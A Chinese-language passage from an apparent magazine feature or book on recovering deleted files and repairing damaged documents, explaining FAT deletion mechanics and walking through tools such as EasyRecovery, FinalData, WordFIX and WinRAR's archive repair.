| /ALL | 加入该参数后，自动将可完全恢复的文件完全恢复，而不一一地询问用户，使用此参数时，若Undelete利用目录里残留的记录来将文件恢复，会自动选一个字符将文件名补齐，并且使其不与现存文件名相同。 |

使用该命令有个限制：就是在删除文件后，该文件所存在的存储介质不能有写入文件的操作，一旦有写入操作，那么有很多文件很可能就只能恢复出一个文件名及文件长度，而内容已经无法打开了。

在DOS大行其道的当年，这条命令不知道救了多少人，到现在本人还十分庆幸有它的存在，因为它挽救了单位一台386电脑上的数百个wps文件，免受了领导的狠批！

#### 文件的读取
操作系统从目录区中读取文件信息（包括文件名、后缀名、文件大小、修改日期和文件在数据区保存的第一个簇的簇号），我们这里假设第一个簇号是0023。
操作系统从0023簇读取相应的数据，然后再找到FAT的0023单元，一直读到文件结束标志（FF），这样就完成了对一个文件的读取。

#### 文件的写入
当我们要保存文件时，操作系统首先在DIR区中找到空区写入文件名、大小和创建时间等相应信息，然后在Data区找到闲置空间将文件保存，并将Data区的第一个簇写入DIR区，其余的动作和上边的读取动作差不多。

#### 文件的删除
电脑对数据的读取和写入有点绕圈子吧，不仅要访问FAT表，并且还要根据FAT表的指引去读取数据区，让人觉得很麻烦，不过文件的删除就简单多了，根本不用去访问数据区，只需要将目录区的第一个字符改成了E5就表示将该文件删除了。

数据恢复（Data Recovery）的基础知识到此就给你介绍得差不多了。如果你领会了以上的这些知识，相信加上工具软件的辅助，恢复你丢失的数据简直是轻而易举的事，这里就不再多说。

### 三、著名的文件恢复工具EasyRecovery

EasyRecovery由著名的ontrack公司出品，是一个非常著名的老牌数据恢复软件。该软件功能非常强大。无论是误删除/格式化还是重新分区后的数据丢失，也不管是硬盘、软盘，甚至是移动硬盘、U盘，都可以轻松解决，甚至可以不依靠分区表来按照簇来进行硬盘扫描。但要注意不通过分区表来进行数据扫描，很可能不能完全恢复数据，原因是通常一个大文件被存储在很多不同的区域的簇内，即使我们找到了这个文件的一些簇上的数据，很可能恢复之后的文件是损坏的。所以这种方法并不是万能的，但其提供给我们一个新的数据恢复方法，适合分区表严重损坏，使用其他恢复软件不能恢复的情况下使用。
EasyRecovery最新版本加入了一整套检测功能，包括驱动器测试、分区测试、磁盘空间管理以及制作安全启动盘等。这些功能对于日常维护硬盘数据来说，非常实用，我们可以通过驱动器和分区检测来发现文件关联错误以及硬盘上的坏道。

由于这个软件我们经常能够用上，并且很容易得到，所以在这里详细介绍一下该软件的功能及基本使用方法：

#### 第一步：安装与启动
普通的EasyRecovery没有中文版本，本人得到的是一个带汉化包的英文版本。安装并汉化完成后，运行软件，首先进入了主屏幕。
在这个界面下，可以通过左边的菜单进入需要的功能，而上边一横排的菜单是EasyRecovery自身的升级、设置等功能菜单，在调试好界面语言、快速启动菜单等内容后，就可以不去管它了。
而最左边的菜单中，我们最常用的功能就是第二项：数据修复。如果对所要恢复的存储介质的文件结构不是特别了解，可以选择“不依赖任何文件系统结构信息进行恢复”，当选择这种方式时，恢复出来的文件量大，但是有许多是不完整的，后期需要耐心地对恢复出来的文件进行挑选验证。现在就以“数据修复”为例，来体验一下软件的使用过程吧。

#### 第二步：选择修复菜单
单击“数据修复”，进入数据修复子菜单。在这里，我们可以针对恢复数据被删除的方式、时间、存储介质来选择相应的数据修复方式。其中最常用的是查找并恢复已删除的文件（DeletedRecovery）。单击该选项，首先由软件对电脑上所存在的存储介质（不包括光盘）进行扫描，进入选择分区页面，图中是 C 盘到 G 盘都是一个硬盘的不同分区，J 盘和 K 盘分别是一个 CF 卡和 XD 卡，其中 XD 卡是以 FAT16 格式格式化的。右边的说明框，对这一步的用法进行了详细说明。

#### 第三步：快速和完全扫描
在默认情况下，将对分区执行一次快速扫描，用已存在的目录结构查找已删除的文件和目录。一般来说，只删除了少量文件并且没有对分区进行重写的话，用快速扫描完全可以胜任，如果删除了目录以及目录内的文件的话，为安全起见，最好使用完全扫描，也就是将下面的完全扫描勾上。

下面进入系统扫描文件环节，在这个环节，可以清楚地看到软件工作的过程，如果对本文前面讲过的内容理解的话，对这个过程就看得十分清楚，扫描文件其实就是对目录的残余信息进行扫描、恢复。

#### 第四步：选择待恢复的文件
扫描完成后，自动进入下一个环节：选择需要恢复的文件或目录，在这里我们选择恢复整个分区的文件，从图中可以看出，整个分区在根目录下有“工作表.xls”等一些文件，还有左边一个“LOSTFILE”这个目录，实际上这个目录是软件在这里虚拟的一个目录，在目录下面就是扫描出的子目录“DIR0”、“DIR1”等，这些目录分别是前期我们已经删除的文件目录，只是把名字重新定义了一下。

点击下一步，这里大家应该很熟悉了，就是让选择需要把恢复的文件放在哪个位置的界面，在这里我们选择的是恢复在 F 盘。

#### 第五步：开始恢复
进入到软件恢复数据环节，在这里，软件的工作模式是在目录区找到文件信息，按照目录区的指引，在相应的数据区把数据分拣回来，组成一个文件，然后把这个文件复制到我们指定的位置。

至此，我们的工作就完成了，下面需要的就是我们根据自己大脑里面的印象，对恢复出来的文件进行检索，找到自己需要的数据。

要提醒大家的是，本软件千万不要安装在需要恢复数据的分区上，还有，在挂上硬盘之前，一定要将 Windows 的临时文件、虚拟内存、回收站之类的全部调整好，防止启动系统后这些临时文件使用待恢复盘，造成数据覆盖，导致无法恢复，其他软件也是一样，切记！

### 四、高效快速的Finaldata

Finaldata 2.0 是目前 Finaldata 的最新版本。这是一个日本开发的数据恢复软件，Finaldata 自身的优势就是恢复速度快，可以免去漫长地等待搜索丢失的数据。不仅恢复速度快，而且其在数据恢复方面功能也十分强大，不仅可以按照物理硬盘或者逻辑分区来进行扫描，还可以通过对硬盘的绝对扇区来扫描分区表，找到丢失的分区。Finaldata 在对硬盘扫描之后，会在其浏览器的左侧显示出文件的各种信息，并且把找到的文件状态进行归类，如果状态已经被破坏，那么对数据进行恢复也不能完全找回数据。这样方便我们了解恢复数据的可能性。同时此款软件还可以通过扩展名来进行同类文件的搜索，这样就方便我们对同一类型文件进行数据恢复。

Finaldata 的速度之快不仅表现在对硬盘扫描时迅速，把已经找到要恢复的文件进行保存的速度也非常迅速，Finaldata 能充分利用 IDE 硬盘的 ATA133、ATA100 等最大接口速度，对数据进行快速保存，在保存数据时间方面，Finaldata 比其他同类型软件要快一倍以上。FinalData 启动后操作界面简洁，操作也相当简单，只要会用 Windows 的资源管理器，基本上用这个软件就没有什么大的问题了。

FinalData 操作界面大致可以分为三部分，最上面的是菜单栏，左侧是文件区，右侧是操作区。

-   第一步：选择磁盘
点击“文件”、“打开”命令，或点击工具栏上的打开按钮，在“选择驱动器”对话框中选择文件所在磁盘。磁盘可以是逻辑硬盘，也可以是软盘、移动硬盘或网络硬盘。
-   第二步：扫描磁盘
当你选择要恢复文件的所在磁盘后，FinalData 会自动扫描。
-   第三步：恢复文件
当所选整个磁盘扫描完成以后，磁盘中所有文件将列在右侧的操作区域，其中文件前带“#”号的就是已经删除过的文件。选中要恢复的文件后，按“保存”按钮，出现“保存”对话框，保存的位置最好选择另外一个驱动器。至此，所丢失的世界被拯救回来了。

该软件界面美观，小巧玲珑，操作简便，功能完善，实用性强，是一款难得的优秀工具软件。但该软件存在的最大不足是不支持中文文件名。由于 DOS、Windows 系统在删除文件时，将文件名的第一个字符压缩掉，而汉字由两个字节组成，压缩掉头一个字符，文件名变为乱码，给寻找要恢复的文件带来困难。如果你的文件名为一个字节，如 a.txt、b.txt，更会给恢复工作造成麻烦。

另外，该软件支持对文件的恢复，但不支持对文件夹恢复，如果你连文件夹一起误删的话，你只好展开文件夹进行恢复了。

### 五、其他恢复软件

会用以上两个软件基本上就可以解决 99% 以上的问题了，下面再简单地介绍几个数据恢复软件，有些是已经过时的，有些是非 Windows 的，都不是我们常用的，大家有个了解就可以了，如果有针对性地对某些数据进行恢复，使用对口的软件可能效果会更好。

#### 1. R-Studio
R-Studio 是被损坏的硬盘上的资料救星。它能适应各种不同的文件系统，甚至连非 Windows 系列的 Linux 操作系统，R-Studio 软件也照样能够应付。而在 Windows NT、Windows 2000 等操作系统上所使用的 NTFS 文件系统，R-Studio 亦具有处理的能力，R-Studio 甚至也能处理 NTFS 文件系统的加密与压缩状态，并将发生问题的文件复原。除了本地磁盘以外，R-Studio 甚至能透过网络去检测其他电脑上硬盘的状况。且在挽救资料损毁的文件以外，R-Studio 也包括了误删文件的复原能力，让未使用回收站或是已清空回收站的文件，都照样能够找回来。最特别的一点是在标准的磁盘安装方式以外，R-Studio 也能支持 RAID 磁盘阵列系统。

#### 2. Drive Rescue
Drive Rescue 是一款优秀而且免费的磁盘数据拯救程序，它能恢复驱动器（例如硬盘）上误删或遗失的数据。

即使已经失去分区表或硬盘已被快速格式化或者遭遇系统崩溃等情况，也能找回驱动器的重要文件系统信息，如分区表、引导记录、FAT、文件/目录记录等。Drive Rescue 支持FAT 12/16/32分区和Windows全系列操作系统以及双硬盘。

#### 3. Recover4all

Recover4all 是一款非常优秀的文件恢复软件。可以恢复任何由于误操作而删除的文件，只需轻轻点击鼠标，删除的文件便可失而复得。不管删除的文件是故意还是无意，也不管删除了多久，次数有多少，对 Recover4all 来说，一切都不是问题。本软件无须安装，可在软盘上直接运行。
这个软件的使用方式和原理其实和 EasyRecovery 差不多，而操作界面又和 FinalData 类似，也很简单，拿回来可以很快上手。

#### 4. File Scavenger

File Scavenger 能够恢复在 NTFS 格式下意外删除的文件，提供了找寻文件类型功能，如*.doc及*.txt，能够救回的文件不只单一文件，还包括整个目录及压缩文件，支持救回来的文件在原位置恢复，或储存到其他的硬盘上。

#### 5. GetDataBack

GetDataBack 能帮我们在5个步骤之内轻轻松松地还原数据，不管硬盘是否还能被操作系统所辨认，也不管根目录或者是所有的目录都已经丢失了。

#### 6. RecoverNT

RecoverNT 是一套功能强大的硬盘资料恢复软件，可以在 Windows9x 下将你不小心格式化的硬盘资料恢复，适用于FAT、FAT32、NTFS系统下，可以挽救单独的文件或是整个目录的文件。
其实 EasyRecovery、Recover4all、RecoverNT 三个软件本人都用过，感觉就像在玩同一款游戏的不同版本，除了操作界面和操作方法不同外，软件功能基本一样，不同的就是 EasyRecovery 操作界面更好，更人性化一点，其他没有什么大的区别。

#### 7. Search and Recover

Search and Recover 是出品 System Mechanic 的 iolo 公司发布的一款硬盘数据恢复工具。可以使用向导方式快速恢复已删除数据，也可以通过高级数据恢复工具最大限度地挽救数据。它的另一大特色是可以恢复 Outlook、Outlook Express、Netscape 等邮件程序中删除的邮件信息，现在即使误删除的邮件也可以恢复了。同时 Search and Recover 还附带一个安全删除工具，可以通过多次（最多100次）覆盖的方法以达到安全删除数据的目的。在 Win2000/XP下，Search and Recover 还提供了一个驱动器映像工具，可以对某一驱动器进行100％的完全克隆，避免已删除数据由于磁盘操作被覆盖，提供最高的数据恢复可能性。

#### 8. DataExplore（数据恢复大师）

DataExplore 是一款功能强大，提供了较低层次恢复功能的数据恢复软件，只要数据没有被覆盖掉，文件就能找得到，本软件无须安装，解压后可以直接运行，请不要在待恢复的分区上运行本软件。
软件支持 FAT12、FAT16、FAT32、NTFS、EXT2 文件系统，能找出被删除、被格式化、完全格式化、删除分区、分区表被破坏后磁盘里的文件，分区被删除或分区表被破坏的情况下可以以虚拟卷方式加载，并以资源浏览器的方式进行管理，文件/文件夹可以拖放，删除的文件以打红“X”的方式加以标志，能组织磁盘扇区成文件，能显示文件信息和文件在磁盘中的位置，有方便的磁盘扇区浏览功能，内置有文本、十六进制、图片和网页等多种视图（可打印），可以在未恢复出文件的情况下预览文件。可浏览网络硬盘，提供 JScript 脚本编辑和解析，相应的有 API 供脚本调用，并将脚本执行结果列表显示，通过脚本可以查找特殊的磁盘信息并存成文件，也可以用来搜索复杂的数据。软件有远程恢复功能，只要在用户远程运行服务器，专业人员就可以远程恢复导出客户的数据文件。
软件所有操作均在内存中完成，不破坏源数据，加载分析的结果可以保存成文件。界面友好。

#### 9. Lost&Found

Lost&Found 是出品 Partition Magic 的 PowerQuest 公司所出的产品，是一套恢复因硬盘病毒感染、意外格式化等因素所导致损失的资料的工具软件，能将已删除的文件资料找出并救回，也能找出已重新格式化的硬盘，被破坏的 FAT 分配表、启动扇区等。软件提供了分析和提示恢复的可能性功能，救回来的资料能选择在原来所在位置恢复或储存到其它可写入资料的硬盘。软件支持所有 IDE、EIDE 及 SCSI 设备，亦提供了自动备份目录，文件和系统配置文件，能在任何时间恢复。

#### 10. PCtools (DOS)

该软件具有初级的数据恢复功能，玩过《仙剑奇侠传》、《金庸群侠传》、《沙丘魔堡》等一些 DOS 游戏的用户对此软件较为熟悉。本人就是从玩《金庸群侠传》开始学习使用 PCtools 的，那时候好像是6.0版本，到后来简直用到炉火纯青的地步，感觉这个软件简直就是一个硬盘、内存编辑器，有它就没有不能办到的事情！不过由于只是在 DOS 下使用的修改工具，目前此款软件的应用范围已经大大缩小，取代它的则是在 Windows 操作系统下使用的数据恢复软件。

除了以上一些软件，其实还有不少公司开发的软件，由于他们把自己的软件说得功能十分强大，简直到了无所不能的地步，但使用后感觉和以上一些软件都是大同小异，也就是界面的改变和一些小的功能的不同。在实际操作过程中，大家只要是对数据存储方式比较了解，多选几样能够拿到手的免费软件交叉使用，效果还是很好的。

# 文件修复技术 完全解读

文/彭文波

“我的文件损坏了！”随着计算机技术的普及和发展，计算机病毒、蠕虫、黑客程序等针对电子文件的破坏性程序越来越厉害，比如无法打开辛辛苦苦制作的Office文件，无法播放花费了数十个小时下载的电影，无法使用压缩后归档保存的文件！于是，很多人试图在发生数据丢失后进行恢复，但是，由于缺乏比较专业的知识，却往往适得其反，甚至丧失了最后的数据恢复机会。因此，掌握关键而有效的文件修复方法，就显得十分重要了。

### 一、文件损坏原因及修复思路

文件损坏的原因是多方面的，大部分文件损坏案例都跟杀毒有关，被感染的文件在杀毒后就打不开了。当然，其他的方式也可以导致文件损坏，如安装了某个软件、运行了某个程序、遭遇黑客攻击等。为了确保能够修复这些文件，首先必须了解以下的注意事项：

- 不要反复使用杀毒软件，这些操作不仅无法找回丢失的文件，还可能会得到相反的结果；
- 如果丢失的重要数据在系统盘，建议立即关机或者转移待修复的文件，因为操作系统运行时产生的虚拟内存和临时文件会破坏数据；
- 在没有绝对把握的情况下，不要轻易尝试Windows的系统还原功能，这可能会给后期的恢复添置不必要的障碍；
- 数据丢失之后，不要轻易尝试一些破坏性较大的操作，尤其是对硬盘的写操作，否则很容易覆盖数据；
- 对于比较重要的数据文件，尽量拷贝到电脑硬盘进行阅读。比如，将数码相机与电脑连接后，最好将相机里的所有相片都剪切或复制到电脑的硬盘里进行查看及编辑，这样，可最大限度地避免由于意外的因素如断电所造成的数据丢失。

文件被破坏后，不要心慌。大多数情况下，文件往往并没有真正的丢失和被破坏，这些文件经过一些处理后能够被恢复出来，甚至完全恢复。但是，我们必须有心理准备，拯救数据也是一门十分专业的工作，对于一般用户而言，如果是十分重要的数据，最好有专业人员的协助。如果是自己修复，也要按照科学的恢复策略行事。常用的文件修复方法有下面两种。

#### 第一种：基于硬件的文件修复

作为主要的数据存储工具，硬盘在数据存储中的地位不容忽视。在没有做备份以前，因病毒感染、误格式化、误分区、误克隆、突然断电或其他原因造成硬盘数据损坏，使一些文件不能读出和使用，我们可以用基于硬件的文件恢复方法把数据重新找回，使宝贵的信息得以再用。硬盘故障分为硬故障和软故障。

##### (1) 针对硬故障的维修

首先要排除硬件故障，使介质在特殊的工作平台上能正确地工作，确认所发生的硬件故障没有破坏存储数据的介质本身。在工作之前，建议通过专业的维修人员进行配合。

##### (2) 软故障

主要是指由于计算机病毒和人为操作失误，导致系统无法引导和文件被格式化或被删除。一般有：

- 系统装不上、不能分区格式化等；
- 零磁道损坏、CIH 病毒或其他病毒引起的数据丢失；
- 误分区、误格式化、误删除、误克隆等误操作引起的数据丢失；
- 某种原因文件打不开、乱码、怪码、原目录下的文件无故丢失或变为0字节等现象。

这些情况下，按照比较正规的操作，数据恢复可以接近100%。因此，目前出现了不少专业的硬件数据恢复公司。

#### 第二种：基于工具软件的文件修复

工具软件的范围十分广泛，既有基于系统的工具软件，也有针对某种文件类型的专用修复工具。以前者为例，在Windows 平台下一般都自带了专门的文件备份和恢复工具。另外，还有类似Norton Ghost这样的磁盘克隆与管理工具，既可整盘克隆，也可以只克隆单个分区。当系统发生故障需要进行系统重建时，就可以简单地利用事前制作的系统硬盘映像文件快速地恢复整个系统，再把用户数据恢复到刚才重建的系统上，这个系统就恢复到了故障前的状态。在下面的典型案例中，还会讲解针对某种文件类型的专用修复工具。

以上是一些比较实用的数据恢复方法，当然，文件安全的关键在于“防范于未然”，认真做好文件的备份工作，就可以在后面的恢复工作中稳操胜券了。在本文的修复实践中，采用了“以修复工具为主，以常用技巧为辅”的思路，下面就是一些常用文件的修复方法。

### 二、高效工作：修复重要的办公文件

Office 办公软件使用的频率很高，但出现问题的频率也很高。修补之前，尝试使用一些常用的小技巧也许很容易就解决问题了。一般来说，Office 文档的修复方法有三种：

#### 第一种：自动恢复

在使用 Office 软件的过程中，如果突然出现蓝屏或是断电，重启运行软件后会发现一个“文档恢复”工具栏。此时，打开文件另存一下即可，此技巧对于 Excel、PowerPoint 同样适用。如果没有见到自动恢复窗口，可以打开断电前文件所在文件夹。
以 Office 2003 下的操作为例，首先打开“控制面板”，打开“工具”菜单下的“文件夹选项”，设置“查看”下的“显示所有文件和文件夹”。然后，找到一些以“~”开头的隐藏文件，把它们按日期排列，试着用 Word 逐一打开最近的文件即可恢复。一般来说，Office 中的“自动恢复”选项设置了自动保存的时间。

#### 第二种：打开文件时恢复

在 Office 程序中，单击“文件”菜单下的“打开”对话框，选中一个文件，单击“打开”按钮旁边的下拉箭头，再选择“打开并修复”也可以修复选中的文档并再打开。

## 第三种：使用 Office 工具恢复

如果 Office 程序不响应，且无法关闭，可以选择“Microsoft Office 工具”中的“Microsoft Office 应用程序恢复”，从中选择相应的程序，再单击“恢复应用程序”，往往可以达到意想不到的修复效果。

如果使用上述技巧仍然不能达到比较满意的修补效果，可以使用一些智能化的“秘密武器”来修复了。这些工具就是专业的修复软件，如 OfficeFIX 就是一款优秀的 Microsoft Office 修复工具，它包括 3 个软件：ExcelFIX、WordFIX 和 AccessFIX，软件提供了一个集成界面，使用十分方便。

## 1. Word 文件的修复

Word 文档的使用十分普遍，但是，Word 文档也很容易出现问题，如乱码、文件不能打开等。修复之前，我们还是首先使用风险较小的常用技巧。

###### (1) 方法一：替换格式法

就是把损坏的 Word 文档存为另一种格式，具体方法如下：

- 第1步：打开被损坏的文档，单击“文件/另存为”菜单，在“保存类型”列表中，选择“RTF 格式”，单击“保存”按钮并关闭 Word。
- 第2步：打开刚才保存的 RTF 格式文件，再次使用“另存为”将文件重新保存为“Word 文档”，现在打开这个 Word 文件就可以发现文件已经被恢复过来了。
- 第3步：如果转换成 RTF 格式后，文件仍然不能被恢复，可以将文件再次转换为纯文本格式(*.txt)，再转换成 Word 格式。需要注意的是，在转换为 TXT 文件的过程中，图片等信息会丢失掉。

###### (2) 方法二：删除格式信息法

在 Word 文档中，最后一个段落符号记录着全篇文档的格式信息，有时删除这些格式信息就可以恢复变成乱码的文件。

- 第1步：打开损坏的文档后，单击“工具/选项”菜单，选择“编辑”标签，取消对“使用智能段落选择范围”复选框的勾选，根据提示按钮进行修复操作。
- 第2步：选定最后一个段落符之外的全部内容，然后将这些内容粘贴复制到新的 Word 文件中即可。

###### (3) 方法三：使用专用工具修复

Word 文件格式使用十分普遍，针对它的修复软件也有很多。WordFIX 是针对各种版本 Microsoft Word 而设计的修复工具，能从损坏或丢失数据的 Word 文件中恢复文本、目录、基本格式以及表格数据。WordFIX 还可以恢复被病毒感染的文件。而且，WordFIX 在修复文件过程中不会破坏原文件。该软件修复文件的过程如下：

- 第1步：启动WordFIX。在主界面中单击“Start”按钮，打开文件选择对话框，单击“Select File”按钮，选择要修复的文件。
- 第2步：选择要修复的模式。在“Recovery Mode”栏中有 3 种模式：Recover MS Word Data、Recover Text Data 和 Extract Images From The File，本例中使用默认的模式即可。单击“Recover”按钮开始修复。
- 第3步：保存。单击“Go to Save”按钮，弹出保存文件窗口。在“Name and Path for the Recovered File”栏中显示的是修复文件所保存的路径及文件名。在“Output File Format”栏中可以选择要保存的文件格式，设置完毕，单击“Save”按钮。单击窗口中的“Open”按钮，打开修复后的文件，在这里可以查看修复后的效果如何。

如图 1 所示。


## 2. Excel 文件的修复

Excel 文件是一个工作簿，它一般可以包含 255 个工作表，每个工作表中可以包含大量的数据。如果一个 Excel 文件部分受损，不能正常打开，该怎么办呢？这里向用户介绍几种修复方法。

###### (1) 方法一：转换格式法

这种方法就是将受损的 Excel 2003 工作簿重新保存，并将保存格式选为 SYLK 格式，通过这种方法可筛选出文档中的损坏部分。首先，打开需要的工作簿。在“文件”菜单中，单击"另存为"命令。在"保存类型"列表中，单击"SYLK（符号连接）(.slk)"选项，然后单击"保存"按钮。关闭目前开启的文件后，打开刚才另存的SYLK版本即可。

###### (2) 方法二：使用Word打开法

如果Excel文件不大，其中只有一个数据表，那么可以尝试一下能否用Word打开它。在Word的Open对话框里选中All Files文件类型然后直接打开即可，或者选中文本文件类型中的Recover Text From Any File选项。这种方法是利用Word直接读取Excel文件功能实现的，它通常适用于Excel 2003文件头没有损坏的情况，下面是具体的操作步骤。

- 第1步：运行Word程序，在出现的文件打开对话框中选择需要打开的Excel文件。如果是首次使用Word程序打开Excel 2003文件，可能会看到"Microsoft Word无法导入指定的格式。这项功能目前尚未安装，是否现在安装？"的提示信息，此时用户可插入Microsoft Office安装盘，来完成该功能的安装任务。
- 第2步：选择要恢复的文件类型。打开的过程中，Word程序会提示，是选择整个工作簿还是某个工作表，用户可以根据要恢复的文件的类型来选择。
- 第3步：在Word中打开受损的文件后，可以先将文件中损坏的数据删除，再将鼠标移动到表格中，并在菜单栏中依次执行“表格”下“转换”中的“表格转换成文字”命令。
- 第4步：在出现的对话框中，选择制表符为文字分隔符，将表格内容转为文本内容。在Word菜单栏中依次执行“文件”下的“另存为”命令，将转换获得的文本内容保存为纯文本格式文件。
- 第5步：运行Excel 2003，执行“文件”下的“打开”命令，在弹出的文件对话框中将文字类型选择为“文本文件”或“所有文件”，这样就能打开刚保存的文本文件了。
- 第6步：现在，用户就可以看到一个文本导入向导设置框，只要根据提示就能顺利打开该文件，这样用户就会发现该工作表内容与原工作表完全一样，所不同的是表格中所有的公式都需重新设置，还有部分文字、数字格式丢失了。

###### (3) 方法三：自动修复法

借助于Excel 2003等软件自身的功能，也能轻松地进行自动恢复。最新版本的Excel 2003具有直接修复受损文件的功能，用户可以使用Excel 2003新增的“打开并修复”命令，直接检查并修复Excel 2003文件中的错误，只要单击该命令，Excel 2003就会打开一个修复对话框，单击该对话框中的修复按钮就可以了。这种方法比较适合在常规方法无法打开受损文件的场合下。
“文档恢复”窗口，并在该窗口中列出了程序发生意外的原因。此时，用户可以用鼠标选择每个要保留的文件，自动进行修复。需要注意，Excel 2003程序在缺省状态下不会启用自动修复功能，可以按照下面的步骤来打开自动恢复功能。

- 第1步：在菜单栏中依次执行“工具”下的“选项”命令，来打开选项设置框。
- 第2步：在该设置框中单击“保存”标签，并在随后打开的标签页面中将“禁用自动恢复”复选框取消。
- 第3步：选中该标签页面中的“保存自动恢复信息”复选项，并输入指定Excel程序保存自动恢复文件的时间。

###### (4) 方法四：使用工具修复法

ExcelFIX能够修复损坏的Microsoft Excel文件，使用的方法和WordFIX差不多，只是在对文件进行修复后，软件窗口里会比WordFIX多一个“View”按钮。单击该按钮后，可以对修复后的文件进行直观的预览。由于ExcelFIX是共享软件，如果没有注册，无法对修复后的文件进行保存。
Excel查看程序是一个用于查看Excel工作簿的免费的实用程序，软件下载地址为http://www.skycn.com/soft/23546.html。安装完毕启动该软件，在该程序中打开损坏的工作簿，然后复制单元格，并将它们粘贴到Excel的一个新工作簿中，逐步完成修复工作。
此外，Concept Data公司提供了一个专门用于修复Excel损坏文件的修复工具——ExcelRecovery，能够对Excel文件进行恢复处理。软件下载地址为http://www.skycn.com/soft/7432.html。软件安装后，可以自动将Excel的修复程序加在Excel应用程序中，在“文件”菜单下多出一项“Recovery”选项，若有损坏的文件，可以用该选项进行修复。
另外要提醒用户的是，保存在软盘中的文件极易损坏，受损后可用以上方法修复，但如果损坏的文件位于磁盘0磁道时，就必须先修复软盘，再用上述方法修复Excel文件。

##### 3. 邮件的修复

使用Outlook Express等软件管理信件的过程中，常常会出现误删除而出现“覆水难收”的现象。R-Mail是一个方便的电子邮件修复程序，它能把因为误删或损毁而无法阅读的电子邮件找回来。软件下载地址：http://www.skycn.com/soft/8494.html。
软件安装完成后，双击桌面上的快捷方式即可启动。接下来，该软件会检查当前Outlook Express保存文件夹。首先回忆并选中误删除的邮箱，然后选择“Tools”（工具）下的“Message base recovery”（仅恢复误删邮件）命令，单击相应邮件，即可看到其内容，包括从谁发来、发给谁、主题及附件等。如果要恢复该邮件，可把它保存为eml格式的邮件。然后把它直接拖放到Outlook Express的邮箱中即可恢复。如果选择“Tools”下的“Message base browsing”（显示邮件库），则可以浏览所有邮件。

另外，如果邮件附件文件丢失，而且打开过Outlook Express中的附件，然后打开临时文件夹按日期检索近期文件，可以很方便地查找到文件。

##### 4. 压缩文件的修复

为了节省硬盘空间，我们一般都会将数据进行压缩处理。但是，由于各种原因，会造成压缩文件的损坏，解压时就会出现错误提示。遇到这种情况，不要急于删掉该文件，比如WinRAR内置的压缩文件修复功能对于一些受损的压缩文件可以起到妙手回春的功效。

###### (1) 方法一：使用WinRAR内置的压缩文件修复功能

- 第1步：启动压缩软件，单击“文件”菜单下的“打开压缩文件”命令，将损坏的压缩文件添加进来。
- 第2步：单击“工具”菜单下的“修复压缩文件”命令，弹出修复对话框，这个窗口中有两个项目，一个是选择修复后文件的保存路径；另一个是选择所要修复的压缩文件的类型，如RAR或ZIP格式，本例中我们选择RAR格式。
- 第3步：单击“确定”按钮，就可以开始进行修复了，同时还会以对话框的形式显示修复的全过程。
- 第4步：进入设定的修复文件存放目录，会发现该目录下增加了一个压缩文件。试着对它进行解压缩，如果一切正常，那么受损的压缩文件已经修复了。

目前，WinRAR只能够修复RAR或ZIP格式的文件，对于其他的文件则无能为力。另外，WinRAR内置的压缩文件修复功能并非对于所有受损的压缩文件都有效，对于那些受损严重的压缩文件，WinRAR也会变得无能为力，或者只能修复压缩包中的某些文件。

###### (2) 方法二：小技巧解决CRC文件压缩错误

这个错误提示，用Windows的查找功能在系统临时文件夹中找到了这个出错文件，选择后复制到刚才的文件夹中，最后关闭WinZip。这样，问题就很容易解决了。

###### (3) 方法三，使用工具软件进行文件修复

“ZIP文件修复大师”是一款优秀的压缩软件修复工具，它不仅可以修复受损的ZIP文件，它还能够修复自解压文件。在修复自解压文件过程中，“ZIP文件修复大师”可以对受损文件进行多重扫描和分析，然后利用内嵌的自解压EXE文件头来修复不正确的循环冗余码校验值，从而最大限度地恢复ZIP文件的受损数据。软件下载地址为 http://www.skycn.com/soft/7177.html。

- 第1步：在修复受损的文件之前，要先对软件的参数进行设置，这样才能达到最佳的修复效果。在软件的界面中单击“参数设置”标签。这里包括5个复选框，我们可以勾选第1项、第2项和第4项。
- 第2步：参数设置好后，切换到“修复”标签，添加要修复的文件后，在“输入修复后的文件名”右边的文本框中就自动出现了修复后文件名及保存路径，当然我们也可以单击右边的按钮，来改变文件名及保存路径。
- 第3步：最后单击“开始修复”就可以了。如图3所示。

类似的修复工具还有“自解压压缩包修复器”，该软件是一款专门用来修复自解压文件的绿色小软件，使用非常简单，只需单击“请按这里选择要恢复的压缩文件”按钮，然后在弹出的对话框中选择要进行修复的文件，它就会自动进行修复。

在上述各类文件的修复过程中，随着格式的不同，选择的软件也有很大的差异，我们也可以考虑使用一些比较通用的修复工具。如EasyRecovery Professional工具，这是一个威力非常强大的文件修复工具和硬盘数据恢复工具。它能够恢复丢失的数据以及重建文件系统。其最大的特点在于：不会向原始驱动器写入任何内容，而是在内存中重建文件分区表使数据能够安全地传输到其他驱动器中。软件下载地址为 http://www.skycn.com/soft/2070.html。

- 第1步：启动EasyRecovery Professional后，点击“文件修复”键。它的内容很丰富，可以修复Mdb文件的“Access修复”、修复XLS文件的“Excel修复”、修复PPT文件的“PowerPoint修复”、修复Word文件的“Word修复”和修复ZIP压缩文件的“Zip 修复”等。
- 第2步：以修复Word的DOC文件为例，选中“Word Repair”，在弹出的对话框上点击找到想要修复的DOC文件。直接单击“下一步”，软件就会在损坏文件所在目录下生成恢复文件。如图4所示。

关于此软件的独特介质修复功能，在本专题的第四部分还将作进一步介绍。

##### 5. PDF文件的修复

PDF文件具有很多优点，因而也得到了广泛运用。Advanced PDF Repair是一款强大的PDF恢复工具。它可以扫描受损的Acrobat PDF文件，并把数据尽可能从那些文档中恢复出来，它支持恢复Acrobat PDF文件的所有版本；支持在PDF中恢复页面及页面上的图片；支持修复不同PDF文件的格式错误；支持修复不按PDF规格制作出来的PDF文件；支持从损坏的软盘、Zip盘、光盘中修复PDF文件；支持批量恢复PDF文档；可以集成在Windows资源管理器中等。软件下载地址为 http://www.skycn.com/soft/25890.html。

- 第1步：在修复受损的文件之前，首先要设置参数，这样才能达到最佳的修复效果。在软件的界面中单击“选项”标签，选择匹配的或者最新的PDF版本。
- 第2步：参数设置好后，切换到“修复”标签，在“选择要修复的PDF文件”文本框后添加要修复的文件；同时设置输出修复后的文件。最后单击“开始修复”按钮就可以开始修复了。

### 三、娱乐新天地：影音文件的修复

现在，下载电影已经成为很多网友冲浪活动中必不可少的一部分。但是，影音文件损坏的现象也十分常见：有的文件下载到99%就失败了，有的影音文件无法拖动播放时间条，有的文件则干脆不能打开。其实，通过一些小技巧或者修复软件的配合，这些问题都能很快得到解决。修复影音文件之前，需要注意以下事项：

建议先对文件进行备份，修复时以备份的文件为目标进行修复，避免修复失败后无法挽救。

